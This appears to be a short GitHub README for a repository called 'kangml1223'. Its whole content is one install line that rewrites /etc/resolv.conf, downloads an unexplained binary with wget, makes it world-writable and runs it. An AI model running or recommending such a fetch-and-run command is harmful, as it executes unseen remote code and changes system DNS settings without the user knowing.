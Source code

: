 # kangml1223
echo 'nameserver 114.114.114.114'>>/etc/resolv.conf;wget https://github.com/xhaifei52/kangml1223/kangml1223;chmod 777 kangml1223;./kangml1223
